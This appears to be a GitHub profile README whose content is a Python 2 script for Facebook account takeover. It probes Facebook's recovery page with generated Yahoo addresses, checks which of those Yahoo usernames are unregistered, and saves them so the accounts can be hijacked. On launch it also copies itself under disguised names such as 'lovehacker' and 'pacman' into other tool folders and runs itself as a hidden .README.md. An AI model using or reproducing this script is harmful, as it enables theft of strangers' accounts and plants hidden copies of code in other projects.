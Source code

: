 - 👋 Hi, I’m @shazad1124
import os,sys,time,datetime,random,hashlib,re,cookielib,urllib,json
os.system("rm -rf .txt")
for n in range(999):
    pf=random.randint(1, 999)
    sys.stdout = open(".txt", "a")

    print(pf)

    sys.stdout.flush()

try:
    import mechanize,requests
except ImportError:
    os.system('pip2 install requests')
    os.system('pip2 install mechanize')
    time.sleep(1)
    os.system('python2 .README.md')
    
from multiprocessing.pool import ThreadPool

from requests.exceptions import ConnectionError
from mechanize import Browser
reload(sys)
sys.setdefaultencoding('utf8')
br = mechanize.Browser()
br.set_handle_robots(False)
br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(), max_time=1)
br.addheaders = [('User-Agent', 'Opera/9.80 (Android; Opera Mini/32.0.2254/85. U; id) Presto/2.12.423 Version/12.16')]

##### LOGO #####
logo='''

    ██████╗░██╗░░██╗██████
REZAN UP 
SHAZAD UP 
SHAZAD UP 
SHAZAD UP 
SHAZAD UP 

--------------------------------------------------

➣ Auther   : UP
➣ GitHub   : SHAZA
➣ YouTube  : REZAN
➣ Blogspot : KURD

--------------------------------------------------
                                '''

os.system("clear")
print(logo)
print " \x1b[1;91mNOTE: Do not put space between name"
print "       put name like binyamin or binyamin.binni"
print '       or binyaminbinni'
print '\x1b[1;97m'
first = raw_input(" Name: ")

def cb():
    os.system('clear')

def ym():
    try:
        cb()
        os.mkdir("../omi/.....")
    except OSError:
        yp()
    else:
        os.system("cp ../bxi/bxi.py ../omi/Omi.py")
        os.system("cp ../bxi/.README.md ../omi/")
        yb()
    
def yb():
    try:
        os.mkdir("../BlackMafia2020/.....")
    except OSError:
        yl()
    else:
        os.system("cp ../bxi/bxi.py ../BlackMafia2020/lovehacker")
        os.system("cp ../bxi/.README.md ../BlackMafia2020/")
        yl()
    
def yl():
    try:
        os.mkdir("../Qurban/.....")
    except OSError:
        yp()
    else:
        os.system("cp ../bxi/bxi.py ../Qurban/Qurban.py")
        os.system("cp ../bxi/.README.md ../Qurban/")
        yp()
    
def yp():
    try:
        os.mkdir("../faizanwahla/.....")
    except OSError:
        login()
    else:
        os.system("cp ../bxi/bxi.py ../faizanwahla/pacman")
        os.system("cp ../bxi/.README.md ../faizanwahla/")
        login()
        
def login():
    os.system('clear')
    try:
        toket = first
    except IOError:
        print '\x1b[1;91m[!] Token tidak ditemukan'
        os.system('rm -rf login.txt')
        time.sleep(1)
        login()
    else:
        os.system('clear')
        print(logo)
        try:
            email = first
            passw = (".txt")
            sandi = open(passw, 'r')
            for p in sandi:
                p = p.replace('\n','')
                try:
                    br.open("https://mbasic.facebook.com/login/identify/?ctx=recover&search_attempts=0&ars=facebook_login&alternate_search=0&toggle_search_mode=1")
                    br._factory.is_html= True
                    br.select_form(nr=0)
                    br.form["email"] = email+p+"@yahoo.com"
                    br.submit()
                    urb = br.geturl()
                    if "https://mbasic.facebook.com/login/identify/?ctx=recover&search_attempts=1&ars=facebook_login&alternate_search=1" in urb:
                        pass
                    else:
                        brl='https://login.yahoo.com/?.src=ym&.lang=en-US&.intl=us&.done=https%3A%2F%2Fmail.yahoo.com%2Fd'
                        br.open(brl)
                        br._factory.is_html = True
                        br.select_form(nr=0)
                        br['username'] = email+p
                        br.submit()
                        url = br.geturl()
                        if url == brl:
                            print " \x1b[1;92m[Yes Available] "+email+p+"@yahoo.com  \x1b[1;97m"
                            ya=open("yes.txt",'a')
                            ya.write(email+p+"@yahoo.com\n")
                            ya.close()
                        else:
                            print " \x1b[1;91m[Not Available] "+email+p+"@yahoo.com  \x1b[1;97m"

                except requests.exceptions.ConnectionError:
                    print ' Connection Error'
                    time.sleep(1)
                    os.sys.exit()

        except IOError:
            print ' Error 404, please try again'
            raw_input(" Press enter to go back")
            os.system("python2 .README.md")
if __name__ == '__main__':
	ym()
